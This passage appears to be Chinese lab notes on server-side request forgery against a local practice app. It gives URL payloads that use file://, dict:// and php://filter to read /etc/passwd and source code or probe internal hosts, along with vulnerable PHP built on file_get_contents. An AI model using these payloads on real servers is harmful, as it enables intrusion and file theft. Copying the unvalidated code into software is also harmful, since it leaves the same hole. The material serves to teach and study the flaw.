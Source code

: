 使用伪协议

1. file

`http://127.0.0.1:8000/vul/ssrf/ssrf_curl.php?url=file:/etc/passwd`

2. http

`127.0.0.1:8000/vul/ssrf/ssrf_curl.php?url=http://192.168.1.1`

3. dict 

   `/vul/ssrf/ssrf_curl.php?url=dict://192.168.1:80`

更多姿势利用gopher协议打内网服务，如redis、sql、struts2等

## file_get_contents

代码

```php
if(isset($_GET['file']) && $_GET['file'] !=null){
    $filename = $_GET['file'];
    $str = file_get_contents($filename);
    echo $str;
}
```

利用方式还是一样的，但还是有些区别

`/vul/ssrf/ssrf_fgc.php?file=file:///etc/passwd`

`/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php` // 这个伪协议在curl下利用失败
